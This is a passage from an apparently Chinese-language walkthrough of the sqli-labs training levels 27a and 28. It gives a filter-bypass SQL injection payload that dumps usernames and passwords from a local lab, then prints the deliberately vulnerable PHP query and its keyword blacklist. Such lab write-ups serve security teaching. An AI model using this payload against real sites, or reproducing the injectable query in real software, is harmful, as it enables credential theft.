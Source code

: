 ### 源码审计
1. 绕过方式一样，双引号闭合
2. 不输出报错信息，不能使用报错注入

**payload**
> http://127.0.0.1/sqlilabs2/Less-27a/?id=1"%09and%091=2%09%09uniunionon%09SElselectect%091,(SElect(group_concat(username,password))from(users)),3%09or%09"1

## 第二十八关 基于GET错误-你的UNION和SELECT归我所有-字符型单引号和括号

### 源码审计
```php
// connectivity 
	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
	if($row)
	{
	  	echo "<font size='5' color= '#99FF00'>";	
	  	echo 'Your Login name:'. $row['username'];
	  	echo "<br>";
	  	echo 'Your Password:' .$row['password'];
	  	echo "</font>";
  	}
	else 
	{
		echo '<font color= "#FFFF00">';
		//print_r(mysql_error());
		echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}




function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
$id= preg_replace('/[--]/',"", $id);				//Strip out --.
$id= preg_replace('/[#]/',"", $id);					//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
//$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
return $id;
}
```
1. 通过源码分析，过滤了union select 忽略大小写
2. 过滤了#和注释、空格
